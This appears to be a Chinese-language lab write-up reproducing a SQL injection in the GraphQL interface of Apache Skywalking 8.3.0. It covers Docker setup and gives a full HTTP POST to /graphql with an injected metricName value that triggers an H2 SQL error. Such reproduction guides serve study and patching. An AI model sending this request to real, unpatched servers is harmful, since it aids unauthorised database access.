

Apache Skywalking 8.3.0 graphql SQL注入漏洞¶
漏洞描述¶
Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。
在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。
参考链接：
- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c
环境搭建¶
Vulhub执行如下命令启动一个Apache Skywalking 8.3.0版本：
docker-compose up -d
环境启动后，访问http://your-ip:8080即可查看Skywalking的页面。
漏洞复现¶
可见，SQL语句已经出错，metricName参数的值被拼接到from后面。

这个请求的HTTP数据包为：
POST /graphql HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 405
{
"query":"query queryLogs($condition: LogQueryCondition) {
queryLogs(condition: $condition) {
total
logs {
serviceId
serviceName
isError
content
}
}
}
",
"variables":{
"condition":{
"metricName":"sqli",
"state":"ALL",
"paging":{
"pageSize":10
}
}
}
}